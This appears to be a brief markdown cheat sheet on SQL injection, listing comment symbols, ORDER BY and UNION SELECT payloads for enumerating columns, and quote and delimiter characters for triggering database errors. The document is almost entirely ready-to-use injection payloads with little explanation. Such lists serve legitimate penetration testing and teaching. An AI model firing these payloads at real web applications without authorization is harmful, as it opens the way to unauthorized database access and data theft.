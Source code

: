 <h1>SQL injection detection</h1>

# IN BAND (Classic)

# UNION BASED

#
# "--" Symbol Alternative
 
 # — 	Inline comment
# '#'	Inline comment
# /* 	Block comment
# */ 	Block comment


# Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+ ......................................
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
```
Other Resources:
https://www.w3schools.com/sql/sql_comments.asp
